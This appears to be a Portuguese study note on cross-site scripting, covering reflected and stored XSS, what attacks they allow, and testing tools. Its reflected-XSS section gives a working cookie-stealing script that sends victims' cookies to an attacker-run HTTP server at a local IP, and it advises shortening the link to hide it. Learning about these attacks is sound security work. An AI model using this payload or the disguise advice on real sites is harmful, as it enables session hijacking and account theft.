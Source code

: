 ## O que é?

   - Injeção de código HTML em uma aplicação. Usando, na maioria dos casos, a tag script.


## Onde as falhsa ocorrem?

   - Campos de pesquisa, cadastro são aberturas de comunicação com o servidor. Podendo injetar código javascript na aplicação. 

   - Link gerado pelo hacker com códigos maliciosos, quando abertos por clientes da aplicação, podem enviar dados dele para o atacante. 

   - A falha é executada no browser do cliente (client side).


## Nível de Controle javascript no navegador

   - Basicamente tem acesso a todas as funcionalidades que um script tem, ou seja, controle total do navegador. Com isso, o atacante pode roubar cookies de acesso, sessão de usuário/admin, utilização de keyloggers, explorar falhas em outros plugins.


## Utilizando o XSS Refletido

   - Algumas formas de aproveitar essa vulnerabilidade

   ### Roubo de cookies

      - Basta utilizar a tag script "<script>alert(document.cookie)</script>". Pórem essa forma exibe a ação na tela de quem abrir a URL com o código malicioso.

      - Para ser mais discreto e receber a informação no computador do atacante, é preciso subir um servidor http simples em python, com o comando "python3 -m http.server 80" a porta é a sua escolha, lembrando que não pode haver outro servidor na mesma porta, portanto caso tenha um web server apache na porta 80, comando "sudo service apache2 start", ela deve ser parada com o comando "sudo service apache2 stop". 

      - Então, com o servidor criado, basta colocar no campo de busca da url onde apresenta XSS o script malicioso '<script>new Image().src="http://192.168.200.5/?="+document.cookie</script>' e apertar enter. Lembrando que o ip informado depende da máquina que estiver o servidor http e a porta deve ser a mesma informada na criação do server http. A URL que for informada, terá o cookie de acesso informado no servidor http. Com isso, se o cliente clicar no link e logar, o script enviará o cookie de acesso para o log do servidor que foi criado. 

      - Para melhorar ainda mais o ataque, é possível encurtar a url com um encurtador de url na internet para que fique menos evidente que o script malicioso será executado. 


## Utilizando o XSS Permanente (stored)

   - Esse tipo de cross-site script é mais perigoso que o refletido, pois não depende do cliente acessar um link que o atacante criou. No XSS Stored, o script malicioso fica armazenado na base de dados do servidor, portanto, quando qualquer usuário acessar determinada url de um site o javascript será executado.

   - Essa vulnerabilidade pode acontecer em campos de comentários em postagens de sites. As falhas serão exploradas nos campos de nome e comentário.  

   - Uma forma bem prática de testar essa vulnerabilidade é com a utilização do OWASP ZAP e arquivos de payload, contendo diversas formas de escrever a tag script buscando alguma brecha de segurança. 


## Observações

   - Importante checar a source page, para analisar o html, como ele é descrito. 

   - payload xss: existe na internet diversas formas diferente de tentar burlar a segurança do site com xss. Esse payload tem escritas diferentes de tags script que testam essa vulnerabilidade. 

   - Alguns sites limitam a quantidade de caracteres de um comentário, limitando as possibilidades de criar scripts um pouco maiores. Porém, como a página é html, podemos mudar a quantidade de caracteres aceito inspecionando a página. Se o site for seguro, ele limitará a quantidade de caracteres enviados para o servidor e quebrará a tag script criada pelo atacante.

   - https://portswigger.net/web-security/cross-site-scripting/cheat-sheet. Site ótimo para buscar diversos scripts para serem testados em sites com XSS.